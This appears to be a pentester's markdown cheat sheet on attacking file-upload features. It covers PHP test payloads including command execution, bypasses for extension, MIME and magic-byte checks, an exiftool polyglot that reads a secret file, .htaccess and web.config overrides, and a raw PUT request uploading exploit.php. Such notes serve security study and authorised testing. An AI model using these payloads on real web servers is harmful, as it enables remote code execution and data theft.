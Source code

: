 # File Upload
**Looking for upload funtionality (obviously)**
**Make sure directory is configured to run dynamic document (PHP, JSP, ASP)**
**Can be chained with XXE Injection (XML files) / LFI (SVG / HTML / JS)**
**Make incremental checks (echo 1, echo system('ls'), echo $_get('cmd'))**

## POCs
### PHP
`<?php echo 1; ?>`
`<?php fread('<URL>', 'r'); ?>`

## Bypassing File Checks
- Check if checks are only made client side (Send through Burp)
- Servers may only generate pages using files with correct extensions
### Content Types
**SUPPLEMENTARY to MIME type
- image/[gif | jpeg | png | svg]
- application/[x-httpd-php | ]
- text/plain
### Magic Bytes
- Gif -> `GIF89a;` `GIF87a;`
- JPEG -> b`FF D8 FF`

### Obfuscating Extension
- Uppercase letters
- Alternative extensions (.php5, .shtml)
- Embedding extensions
- Multiple extensions
- Trailing whitespace/dots
- URL Encoding
- `%00` / `;` before extension
- Unicode characters

### Polyglot File
**Embedding shell with ExifTool**
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

### Overwriting Server Configuration
#### Apache - .htaccess
```
RewriteEngine off
AddType <CONTENT-TYPE> .<EXTENSION>
```

#### IIS - web.config
```
<staticContent>
	<mimeMap fileExtension=".<EXTENSION>" mimeType="application/<MIME>"
</staticContent>
```

## Executing Code
### Non-Executable Directories
**Move up directories until you find executable directory (Web root)**

### Race Conditions
**Brute forcing random ID with large file using padding bytes**

### PUT
```
PUT /images/exploit.php HTTP/1.1
Host: <HOST>
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo 1; ?>
```

